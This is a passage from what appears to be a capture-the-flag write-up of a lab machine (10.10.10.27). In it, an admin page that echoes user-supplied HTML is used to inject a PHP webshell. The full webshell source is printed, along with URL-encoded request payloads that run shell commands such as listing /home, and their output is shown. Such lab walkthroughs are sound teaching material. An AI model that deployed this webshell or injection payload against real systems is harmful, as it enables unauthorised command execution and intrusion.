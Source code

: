 ```
Try writing some simple stuff ...and see how difficult my job is and how underpaid I am
<form method="get">
Your HTML: <input type="text" name="html"><br>
  <input type="submit" value="SHOW ME DA PAGE">
</form> 
</body></html>
foo
</RESPONSE>
```

Okay.. so now what? Some sort of exploit that takes advantage of GET requests?
Or vulnerabilities such as cross-site scripting to make some code execute?

### OWN USER

So now that we have a way of injecting what ever code we want, what if we fed
it a script like this one?

```
https://raw.githubusercontent.com/JohnTroony/php-webshells/development/simple-backdoor.php

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
<!--    http://michaeldaw.org   2006    -->
```

So we can inject this script into the admin.php page and feed it a command
like `ls /home` to see what users we have:

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=ls+%2Fhome
```

.. and we get:

```
xalvas
```

Let's see what `xalvas` has in his home directory..

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=ls+-l+%2Fhome%2xalvas
```
